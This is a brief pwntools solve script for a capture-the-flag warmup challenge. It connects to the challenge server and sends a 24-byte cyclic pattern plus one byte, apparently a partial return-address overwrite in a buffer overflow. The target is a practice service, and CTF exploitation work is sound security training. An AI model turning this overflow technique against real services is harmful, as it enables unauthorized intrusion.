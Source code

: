 
# warmup1.py

```py
from pwn import *

r = remote('warmup1.ctf.maplebacon.org', 1337)

p = cyclic(24)
p += b'\x19'

r.send(p)

print(r.recv())
```
